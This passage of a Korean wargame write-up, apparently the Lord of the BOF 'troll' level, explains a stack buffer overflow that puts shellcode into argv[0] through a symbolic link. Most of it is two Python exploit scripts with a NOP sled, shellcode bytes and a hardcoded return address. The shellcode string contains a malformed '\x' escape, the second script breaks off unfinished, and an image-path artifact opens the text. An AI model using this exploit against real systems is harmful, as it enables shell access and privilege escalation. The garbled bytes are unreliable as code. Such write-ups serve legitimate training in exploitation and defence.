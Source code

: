 설정한 심볼릭 링크 이름으로 troll바이너리를 실행한다.

buffer 배열의 40byte와 SFP 4byte를 NOP Code로 덮어씌우고 RET부분에 argv[0] 영역으로 설정하여 Shell Code가 실행되는 것을 확인할 수 있다.

-----

### 0x03. 정리

해당 문제는

- argv[0]와 argv[1]만을 사용
- argv[1]의 길이는 48의 길이 제한
- RET의 시작주소는 `\xbf`로 고정
- 환경변수 초기화
- buffer배열 초기화
- argv[1] 스택 영역 초기화

보호기법이 적용된 문제이다.

이런경우는 **심볼릭 링크를 이용**하여 argv[0]에 Shell Code를 넣어 해결할 수 있음을 알게 해주는 문제이다.

-----

```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

shellcode = "\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\x\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"

target = "\x90"*100 + shellcode
#target = "A"*100+"S"*48

shellcode_addr = 0xbffffc78

payload = "\x90"*44
payload = append(p32(shellcode_addr))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```

-----

```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/orge/"

shellcode = "\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\x\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"

sym_link = "\x90"*50 + shellcode + "\x90"*32

```
